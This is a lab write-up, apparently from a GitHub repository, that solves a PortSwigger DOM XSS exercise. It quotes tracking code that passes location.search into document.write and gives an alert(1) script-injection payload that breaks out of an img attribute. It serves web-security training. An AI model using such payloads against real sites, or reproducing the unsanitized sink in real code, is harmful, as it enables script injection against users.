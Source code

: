 
# DOM XSS in document.write sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.

---------------------------------------------

References:

- https://portswigger.net/web-security/cross-site-scripting/dom-based

---------------------------------------------


There is a search function in "/?search=":



![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/1.png)

In the source code we see the sink:

```
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```



![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/2.png)

We can pop an alert with the payload:

```
"><script>alert(1)</script>
```




![img](images/DOM%20XSS%20in%20document.write%20sink%20using%20source%20location.search/3.png)